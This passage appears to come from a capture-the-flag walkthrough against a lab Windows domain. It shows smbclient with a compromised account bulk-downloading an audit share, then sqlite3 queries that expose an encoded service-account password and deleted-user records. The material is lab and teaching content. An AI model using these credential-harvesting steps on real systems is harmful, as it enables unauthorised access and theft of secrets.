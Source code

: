 ````powershell
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
````

We go to **smbclient** and dump all the content again.

````bash
❯ smbclient //10.10.10.182/Audit$ -U s.smith
Password for [WORKGROUP\s.smith]:
Try "help" to get a list of possible commands.
smb: \> mask ""
smb: \> prompt OFF
smb: \> recurse ON
smb: \> mget *
getting file \CascAudit.exe of size 13312 as CascAudit.exe (67.4 KiloBytes/sec) (average 67.4 KiloBytes/sec)
getting file \CascCrypto.dll of size 12288 as CascCrypto.dll (76.9 KiloBytes/sec) (average 71.6 KiloBytes/sec)
getting file \RunAudit.bat of size 45 as RunAudit.bat (0.3 KiloBytes/sec) (average 49.7 KiloBytes/sec)
getting file \System.Data.SQLite.dll of size 363520 as System.Data.SQLite.dll (1017.2 KiloBytes/sec) (average 445.5 KiloBytes/sec)
getting file \System.Data.SQLite.EF6.dll of size 186880 as System.Data.SQLite.EF6.dll (903.5 KiloBytes/sec) (average 533.2 KiloBytes/sec)
getting file \DB\Audit.db of size 24576 as DB/Audit.db (150.9 KiloBytes/sec) (average 483.1 KiloBytes/sec)
getting file \x64\SQLite.Interop.dll of size 1639936 as x64/SQLite.Interop.dll (2074.5 KiloBytes/sec) (average 1101.7 KiloBytes/sec)
getting file \x86\SQLite.Interop.dll of size 1246720 as x86/SQLite.Interop.dll (1612.6 KiloBytes/sec) (average 1242.4 KiloBytes/sec)
````

Among everything we found, there is a database and some Base64-encoded credentials.

````bash
 Audit.db
❯ sqlite3 Audit.db
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
DeletedUserAudit  Ldap              Misc            
sqlite> select * from Misc;
sqlite> select * from Ldap;
1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local
sqlite> select * from DeletedUserAudit;
6|test|Test
DEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d|CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d,CN=Deleted Objects,DC=cascade,DC=local
7|deleted|deleted guy
DEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef|CN=deleted guy\0ADEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef,CN=Deleted Objects,DC=cascade,DC=local
9|TempAdmin|TempAdmin
DEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a|CN=TempAdmin\0ADEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a,CN=Deleted Objects,DC=cascade,DC=local
sqlite> 
````
